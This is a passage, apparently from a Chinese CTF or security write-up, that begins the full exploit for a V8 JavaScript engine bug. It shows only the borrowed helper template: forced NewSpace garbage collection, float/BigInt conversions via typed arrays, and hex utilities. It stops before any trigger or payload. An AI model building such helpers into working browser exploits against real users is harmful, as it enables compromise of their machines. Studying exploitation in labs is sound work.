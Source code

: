 ### exp

完整的exp如下，前面的板子来自这里。

```
function gc() {
  /*fill-up the 1MB semi-space page, force V8 to scavenge NewSpace.*/
  for (var i = 0; i &lt; ((1024 * 1024) / 0x10); i++) {
    var a = new String();
  }
}

function give_me_a_clean_newspace() {
  /*force V8 to scavenge NewSpace twice to get a clean NewSpace.*/
  gc()
  gc()
}

let floatView = new Float64Array(1);
let uint64View = new BigUint64Array(floatView.buffer);

Number.prototype.toBigInt = function toBigInt() {
  floatView[0] = this;
  return uint64View[0];
};

BigInt.prototype.toNumber = function toNumber() {
  uint64View[0] = this;
  return floatView[0];
};

function hex(b) {
  return ('0' + b.toString(16)).substr(-2);
}

// Return the hexadecimal representation of the given byte array.
function hexlify(bytes) {
  var res = [];
  for (var i = 0; i &lt; bytes.length; i++)
    res.push(hex(bytes[i]));
  return res.join('');
}

// Return the binary data represented by the given hexdecimal string.
function unhexlify(hexstr) {
  if (hexstr.length % 2 == 1)
    throw new TypeError("Invalid hex string");
  var bytes = new Uint8Array(hexstr.length / 2);
  for (var i = 0; i &lt; hexstr.length; i += 2)
    bytes[i / 2] = parseInt(hexstr.substr(i, 2), 16);
  return bytes;
}

function hexdump(data) {
  if (typeof data.BYTES_PER_ELEMENT !== 'undefined')
    data = Array.from(data);
  var lines = [];
  for (var i = 0; i &lt; data.length; i += 16) {
    var chunk = data.slice(i, i + 16);
    var parts = chunk.map(hex);
    if (parts.length &gt; 8)
      parts.splice(8, 0, ' ');
    lines.push(parts.join(' '));
  }
```
